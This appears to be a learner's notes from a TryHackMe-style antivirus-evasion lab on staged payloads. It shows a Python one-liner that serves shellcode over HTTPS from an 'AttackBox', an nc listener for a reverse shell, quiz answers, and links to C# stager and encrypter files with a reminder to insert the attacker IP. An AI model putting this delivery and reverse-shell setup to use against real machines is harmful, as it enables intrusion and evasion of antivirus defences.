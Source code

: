AttackBox

```
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

```bash
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

AttackBox:

```bash
nc -lvp 7474
```

Answer the questions below

Do staged payloads deliver the full content of our payload in a single package? (yea/nay)

nay

Is the Metasploit payload **`windows/x64/meterpreter_reverse_https`** a staged payload? (yea/nay)

nay

Is the stage0 of a staged payload in charge of downloading the final payload to be executed? (yea/nay)

yay

Follow the instructions to create a staged payload and upload it into the THM Antivirus Check at **`http://10.10.189.219/`**

Complete

NAN

[Encrypter.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/Encrypter%20cs%20e6323071d156446e99ec07f3698d523f.md)

[EncStageless.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/EncStageless%20cs%20fc0af1e659aa42c68d5a6d688d3f30b4.md)

[StagedPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/StagedPayload%20cs%205ddc071e9cc44f538c41e53028f2ba2a.md)

[UnEncStagelessPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/UnEncStagelessPayload%20cs%202531970f9a4e42648a7c2fa50daab2f8.md)

example:

[ST_stagedPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/ST_stagedPayload%20cs%201618c7a0137c411aae42c73d61a863cc.md)

change the “attacker IP” to the real IP address!!!